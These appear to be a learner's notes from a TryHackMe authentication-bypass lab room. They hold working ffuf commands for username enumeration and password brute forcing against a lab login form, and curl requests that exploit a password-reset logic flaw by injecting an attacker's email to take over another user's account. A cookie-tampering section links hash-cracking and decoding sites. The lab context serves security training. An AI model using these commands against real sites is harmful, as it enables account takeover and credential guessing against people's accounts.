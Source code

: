 
# Username Enumeration
The ffuf tool uses a list of commonly used usernames to check against for any matches.

    user@tryhackme$** ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.154.177/customers/signup -mr "username already exists"

# Brute Force
A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

```shell-session
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.154.177/customers/login -fc 200
```
# Logic Flaw
A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. 
![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/58e63d7810ac4b23051e1dd4a24ef792.png)
First step is to send Curl Requests on the Terminal. Curl tool utilized to manually make the request to the webserver

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.
#### curl request 1:

    curl 'http://10.10.154.177/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
#### curl request 2:
```
curl 'http://10.10.154.177/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
#### curl request 2 (**using your @acmeitsupport.thm account**:
    curl  'http://10.10.154.177/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'

# Cookie Tampering
Examining and editing the cookies set by the web server during online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

https://crackstation.net/ <--keep databases of billions of hashes and their original strings.
https://www.base64decode.org/ <-- Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.
https://gchq.github.io/CyberChef/




